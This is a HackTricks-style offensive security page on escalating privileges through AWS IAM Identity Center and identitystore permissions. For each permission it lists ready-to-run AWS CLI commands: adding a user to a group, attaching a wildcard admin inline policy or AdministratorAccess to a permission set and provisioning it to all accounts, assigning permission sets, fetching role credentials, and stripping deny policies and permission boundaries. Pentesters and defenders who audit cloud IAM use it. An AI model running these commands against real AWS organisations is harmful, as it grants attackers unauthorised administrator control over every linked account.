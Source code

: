 # AWS - SSO & identitystore Privesc

{{#include ../../../banners/hacktricks-training.md}}

## AWS Identity Center / AWS SSO

For more information about AWS Identity Center / AWS SSO check:

{{#ref}}
../aws-services/aws-iam-enum.md
{{#endref}}

> [!WARNING]
> Note that by **default**, only **users** with permissions **form** the **Management Account** are going to be able to access and **control the IAM Identity Center**.\
> Users from other accounts can only allow it if the account is a **Delegated Adminstrator.**\
> [Check the docs for more info.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)

### ~~Reset Password~~

An easy way to escalate privileges in cases like this one would be to have a permission that allows to reset users passwords. Unfortunately it's only possible to send an email to the user to reset his password, so you would need access to the users email.

### `identitystore:CreateGroupMembership`

With this permission it's possible to set a user inside a group so he will inherit all the permissions the group has.

```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control

```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
	"Version": "2012-10-17",
	"Statement": [
		{
			"Sid": "Statement1",
			"Effect": "Allow",
			"Action": ["*"],
			"Resource": ["*"]
		}
	]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control

```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

An attacker with this permission could grant extra permissions to a Permission Set that is granted to a user under his control.

> [!WARNING]
> To abuse these permissions in this case you need to know the **name of a customer managed policy that is inside ALL the accounts** that are going to be affected.

```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```

### `sso:CreateAccountAssignment`

An attacker with this permission could give a Permission Set to a user under his control to an account.

```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```

### `sso:GetRoleCredentials`

Returns the STS short-term credentials for a given role name that is assigned to the user.

```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```

However, you need an access token that I'm not sure how to get (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

An attacker with this permission can remove the association between an AWS managed policy from the specified permission set. It is possible to grant more privileges via **detaching a managed policy (deny policy)**.

```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

An attacker with this permission can remove the association between a Customer managed policy from the specified permission set. It is possible to grant more privileges via **detaching a managed policy (deny policy)**.

```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```

### `sso:DeleteInlinePolicyFromPermissionSet`

An attacker with this permission can action remove the permissions from an inline policy from the permission set. It is possible to grant **more privileges via detaching an inline policy (deny policy)**.

```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```

### `sso:DeletePermissionBoundaryFromPermissionSet`

An attacker with this permission can remove the Permission Boundary from the permission set. It is possible to grant **more privileges by removing the restrictions on the Permission Set** given from the Permission Boundary.

```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```

{{#include ../../../banners/hacktricks-training.md}}



